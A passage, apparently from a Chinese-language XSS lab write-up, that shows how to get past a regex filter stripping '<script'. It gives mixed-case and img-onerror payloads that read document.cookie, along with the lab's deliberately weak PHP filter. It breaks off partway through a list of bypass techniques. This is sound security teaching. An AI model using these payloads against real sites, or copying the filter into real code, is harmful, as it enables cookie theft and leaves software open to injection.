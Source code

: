 ```
<script>alert(document.cookie)</script>
```

看看过滤了什么

输入`<script>alert(document.cookie)</script>`  =》 '>'

![](https://i.loli.net/2021/02/13/HnZIpcgKvPu7OaC.png)

`alert(document.cookie)` => 'alert(document.cookie)'

![](https://i.loli.net/2021/02/13/WGHE3wDIovOh5kg.png)

`<script>`被过滤为`>`;也就是说`<script`被过滤

此处只能用 大小写绕过 或者 非script标签的payload：

```
<sCRipt>alert(document.cookie)</sCRipt>
<img  src=1  onerror=alert(document.cookie)> 
```



看一下源码：

```php
过滤部分：
if(isset($_GET['submit']) && $_GET['message'] != null){
    //这里会使用正则对<script进行替换为空,也就是过滤掉
    $message=preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/', '', $_GET['message']);
//    $message=str_ireplace('<script>',$_GET['message']);

    if($message == 'yes'){
        $html.="<p>那就去人民广场一个人坐一会儿吧!</p>";
    }else{
        $html.="<p>别说这些'{$message}'的话,不要怕,就是干!</p>";
    }

}
```

使用了如下的正则过滤，类似双写、注释干扰都无法生效了

![](https://i.loli.net/2021/02/13/wpvoqGeBJXK3LR4.png)
![](https://i.loli.net/2021/02/13/vXfZuO7iCdhteKa.png)



### xss过滤常见bypass:

大小写绕过：

```
<sCRipt>alert(document.cookie)</sCRipt>
```

双写绕过：
